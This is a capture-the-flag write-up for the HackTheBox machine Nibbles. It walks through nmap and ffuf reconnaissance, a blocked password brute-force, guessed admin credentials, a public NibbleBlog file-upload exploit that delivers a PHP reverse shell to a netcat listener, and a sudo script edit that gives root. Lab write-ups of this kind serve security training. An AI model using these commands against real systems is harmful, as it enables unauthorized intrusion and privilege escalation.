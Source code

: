 # Nibbles [HTB](https://app.hackthebox.com/machines/Nibbles)
![nibbles-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/nibbles-01.png)

## Recon

After adding the target to my `/etc/hosts` file, i fire off an `nmap` scan:

```bash
nmap -sC -sV -A -p- nibbles.htb -oN nmap.result
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/nmap-res-02.png)

We have the following:

+ An SSH server on port 22.
+ An Apache server on port 80.

Lets take a look at the Apache server and see what we can gather. 


### Apache Port 80

If we open the site at `http://nibbles.htb` we get:

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/site-03.png)

If we take a look at the source code, we can see an interesting comment:

![source-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/source-04.png)

Lets open this directory at `http://nibbles.htb/nibbleblog`:

![blog-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/blog-05.png)

This is a blog site powered by `Nibbleblog`, all links lead to this home page. Lets take a look at the 
source code once again:

![blog-src-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/blog-src-06.png)

Looks like we have an `admin` directory, lets see whats inside:

![admin-dir-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/admin-dir-07.png)

As you can see, I've had a look around and i found the following directory `http://nibbles.htb/nibbleblog/admin/templates/easy4/index.bit`: 

![easy4-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/easy4-08.png)

If you hover over the `Dashboard` link, youll see it outlines the parameters to get the admin login page: 
`http://nibbles.htb/nibbleblog/admin.php?controller=dashboard`

![admin-login-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/admin-login-09.png)

Iv'e tried to hunt down the admin password on the site, i couldnt find it. I also tried to search Google
for the default password, but without success as well. So i decided to brute force it. 

I opened `Burp`, capture a login request and send it to `Intruder`. Here i added the password field:

![intruder-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/intruder-10.png)

I use a `Sniper` attack with `/usr/share/wordlists/john.list` as the password wordlist:

![setup-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/setup-11.png)

I run the attack and i get Blacklisted after 5 attempts:

![blocked-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/blocked-12.png)

So i take a step back and decide to enumerate further with a directory busting scan:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.
txt -u http://nibbles.htb/nibbleblog/FUZZ
``` 

The two most interesting results are:

![ffuf-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/blocked-12.png)

![ffuf-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/ffuf-14.png)


The `content` folder has some interesting `xml` files, like `/private/users.xml`, but it doesnt have the 
admin password. If we take a look at the `README` page:

![readme-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/readme-15.png)

We can see the version of the backend CMS. If we search Google, we can find a [public exploit](https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html):

![exploit-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/exploit-16.png)

There is also a Metasploit version, but we need the admin credentials. but we cant brute force, so lets try to guess. After a few failed attempts i found the credentials are `admin : nibbles`:

![admin-page-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/admin-page-17.png)

Now that we know the credentials we can try this file upload [exploit](https://github.com/dix0nym/CVE-2015-6967).  We need a PHP reverse shell, i use [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)'s

Make sure to update your listener's information:

![update-rshell-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/update-rshell-18.png)

Setup the listner with:

```bash
rlwrap nc -lnvp 443
```

Run the exploit with:

```bash
python3 exploit.py --url http://nibbles.htb/nibbleblog/ --username admin --password nibbles --payload rshell.php
```

This should give you access to the system:

![shell-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/shell-20.png)



## Privilege Escalation


If we check our `sudo` privileges with:

```bash
sudo -l
```

![sudo-21](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/sudo-21.png)


We can run a bash script located in our home directory as root. But if `cd` into our user's home directory
we see the following:

![home-dir-22](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/home-dir-22.png)

No `personal` directory, instead we have a zip archive. Lets unzip it:

```bash
unzip personal.zip
```
![unzip-23](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/unzip-23.png)


Now if check our user's permissions to this script with `ls -l` we can see:

![perms-23](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/perms-23.png)

We have full read, write and execute permissions to this script. And since we can run it as root via sudo,
we can edit the file to run whatever command we want with elavated privileges. 

I just start a bash session at the end of the script:

```bash
echo "/bin/bash" >> /personal/stuff/monitor.sh
```

And i execute it with sudo:

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

![root-24](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Nibbles/img/root-24.png)
